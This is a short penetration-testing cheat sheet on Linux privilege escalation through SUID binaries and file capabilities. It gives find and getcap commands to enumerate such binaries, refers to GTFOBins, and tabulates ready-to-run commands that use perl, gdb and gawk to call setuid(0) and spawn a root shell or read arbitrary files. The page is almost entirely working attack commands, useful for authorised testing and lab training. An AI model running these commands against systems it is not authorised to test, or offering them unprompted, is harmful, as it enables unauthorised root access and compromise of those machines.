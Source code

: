 # SUID

_<mark style="background-color:purple;">**enumerate SUID binaries**</mark>_

_search for SUID binaries:_

```powershell
find / -perm -u=s -type f 2>/dev/null
```

&#x20;list all files on the system that have special capabilities assigned to them:

```powershell
/usr/sbin/getcap -r / 2>/dev/null
```

* **CAP\_SETUID**&#x20;

<mark style="background-color:green;">check results on</mark> [<mark style="background-color:green;">https://gtfobins.github.io/</mark>](https://gtfobins.github.io/)&#x20;

| binary with SUID | priv esc command                                                                                                                                                                                |
| ---------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| perl             | `perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'`                                                                                                                             |
| gdb              | <p>SUID=<code>gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit</code><br>CAP_SETUID=<code>gdb -nx -ex 'python import os; os.setuid(0)' -ex'!sh' -ex quit</code><br></p> |
| gawk             | <p><code>LFILE="file_to_read"</code><br><code>gawk '//' "$LFILE"</code></p>                                                                                                                     |
|                  |                                                                                                                                                                                                 |

